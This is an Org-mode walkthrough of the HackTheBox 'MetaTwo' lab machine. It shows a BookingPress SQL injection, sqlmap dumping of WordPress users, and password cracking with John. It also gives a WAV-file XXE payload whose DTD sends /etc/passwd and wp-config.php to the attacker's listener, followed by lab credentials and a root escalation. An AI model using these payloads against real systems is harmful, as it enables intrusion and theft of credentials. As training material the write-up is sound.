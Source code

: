 #+title: Meta Two


* Connection and nmap
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

#+begin_src shell :results output :wrap "quote"
sudo nmap -sC -sV -T4 10.10.11.186
#+end_src

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

* First steps

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:

#+begin_src shell :results output :wrap "quote"
ftp 10.10.11.186
#+end_src

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is http://metapress.htb/.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

* Looking for vulnerabilities

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

#+begin_src shell
wpscan --url http://metapress.htb
#+end_src

#+RESULTS:

You can look them up in https://wpscan.com/wordpress/562 and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
#+begin_src shell
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
#+end_src

#+RESULTS:

You should replace the nonce with the one that you can find in the source code, and the output will be like this:

#+begin_quote
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
#+end_quote

* Enumerating databases: Sqlmap

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

#+begin_src shell :results output :wrap "quote" :exports both
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=33&total_service=1" -p "total_service" --dbs
#+end_src
That way we can enumerate the databases present. I had problems with this command
since it kept saying that the connection was not stable but i just kept trying
and eventually I could do it.

The databases that we could found are two: blog and information_schema.
The first one is the most interesting of the two, clearly.

#+begin_src shell :results output :wrap "quote" :exports both
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=33&total_service=1" -D blog --tables
#+end_src
Now we look inside the blog database and enumerate the tables: there is a lot of them
but the first that catches the eye is wp_users. After some horrible looking output
we can see that it found two users, admin and manager.
Along side the names we can see the hashes that correspond to the passwords, so we
will copy them to a file and try to crack them.

* Cracking the passwords: John the Ripper

#+begin_src shell :results output :wrap "quote" :exports both
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
#+end_src
We are using John the Reaper which is a hashcracking program, in this case we are
using the classic rockyou wordlist that. I had to decompress the rockyou file before
utilizing the command, just so you know.

We see that it found one password, the manager's which is "partylikearockstar".

So we have a username and a password but we have to find out where to enter them.
Although there is no login link in the page, based in our enumeration we know that
there is a subdomain called "wp-admin". So if we go to http://metapress.htb/wp-admin
we will encounter the Wordpress page for authentication, we enter the credentials
and we are in!

* Exploiting XXE

Looking around the vulnerabilities of this version of Wordpress I encounter this
article: https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/
It's a fascinating thing. It essentially uses the metadata of a WAVE file to
inject payload and retrieve information.

#+begin_src shell :results output :wrap "quote" :exports both
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.83:1234/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
#+end_src
That is the code that the author suggests, the only thing we should change it's the
ip, replacing it with our own and I also changed the port to 1234 for convenience.

Now if we continue with the article we have to send this payload through a dtd file
which will look like this:

#+begin_src shell :results output :wrap "quote" :exports both
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.83:1234/?p=%file;'>">
#+end_src

Again we have to modify the ip and port.

We will start a php server:
#+begin_src shell :results output :wrap "quote" :exports both
php -S 0.0.0.0:1234
#+end_src

And we go the the media page. Then click on add new and upload our payload.wav while
the server is still running. We will get a huge, horrible looking output but we can
decode it using:
#+begin_src shell :results output :wrap "quote" :exports both
echo -en <payload> | base64 -d
#+end_src

Now the output looks much more interesting since these is the passwd file of the
machine we are trying to pawn. Of course if we analyze it there really is nothing
we can do with this. But it is useful to know that the vulnerability can be
exploited.

If we modify the evil.dtd file that we created before to give us the config file of
the page we might be more lucky.
#+begin_src shell :results output :wrap "quote" :exports both
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.83:1234/?p=%file;'>">
#+end_src

So we upload the payload.wav file again and again we decode the output which will
look like this:

#+begin_src php :results output :wrap "quote" :exports both
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

#+end_src

There is a lot of hashes in there but the interesting thing is that we have a method:
FTP, the user and the password (hashed). We already tried to connect to ftp and we
couldn't so maybe this could prove useful.

* Getting the credentials

#+begin_src shell :results output :wrap "quote" :exports both
ftp 10.10.11.186
#+end_src
And we enter our newly found credentials.

If we list the files using ls, we will see two folders: blog and mailer.
We cd to mailer and then download the send_email.php file with the get command.
It will download to our current directory and if we cat it we can see that there are
more credentials!

In particular these two could be used for ssh access:
#+begin_quote
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
#+end_quote

So we will do that:
#+begin_src shell :results output :wrap "quote" :exports both
ssh jnelson@metapress.htb
#+end_src
We input the password and we can see that it works!
Now we can do an ls and find out that there is the user.txt file with the flag that
we want.

* Escalating the privileges

If we try to use sudo we will see that we cannot. However we can see that there is a
.passpie directory. Passpie is a password manager for Linux and there is a .keys
file inside and a ssh directory. We don't really know if we can use this but it is
worth a try.

So we will copy the private key block of the .keys file to our machine and write it
to a file called key. And use gpg2john to write it to another file unhashed:

#+begin_src shell :results output :wrap "quote" :exports both
gpg2john key > pass_hash
#+end_src

And run it through john again:
#+begin_src sh :results output :wrap "quote" :exports both
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
#+end_src
And once it is done:
#+begin_src sh :results output :wrap "quote" :exports both
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
#+end_src

Now we can see that the password is "blink182". We don't know what this is for but
we can find out using:

#+begin_src shell :results output :wrap "quote" :exports both
passpie export pass
#+end_src
And entering "blink182" as the Passphrase. Now we can see that the root user has
'p7qfAZt4_A1xo_0x' as password.

So we will:
#+begin_src shell :results output :wrap "quote" :exports both
su root
#+end_src

#+RESULTS:
#+begin_quote
#+end_quote

And enter that as the password and we are in! We are root!

So let's end this, let's go to /root/root.txt and extract our flag from there.

And that is it! I hope this was informative, I am still a noob but I had a great
time trying to crack this.

#+attr_html: :width 1500px
[[/mnt/c/Users/Federico/Pictures/Screenshots/test.png]]
